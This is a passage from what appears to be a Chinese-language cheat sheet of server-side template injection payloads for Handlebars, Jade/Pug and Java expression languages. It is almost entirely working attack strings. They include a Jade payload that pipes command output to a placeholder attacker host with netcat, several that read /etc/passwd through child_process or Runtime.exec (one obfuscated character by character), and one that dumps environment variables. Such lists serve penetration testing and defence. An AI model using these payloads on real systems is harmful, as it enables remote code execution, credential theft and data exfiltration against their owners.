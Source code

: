 ```handlebars
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

## Jade / Codepen

[官方网站](https://codepen.io/)

> 

```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

---

## Java

### Java - 基础注入

> 如果 `${...}` 不起作用，请尝试 `#{...}`, `*{...}`, `@{...}` 或 `~{...}`。

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Java - 获取系统环境变量

```java
${T(java.lang.System).getenv()}
```

### Java - 读取 /etc/passwd

```java
${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

---
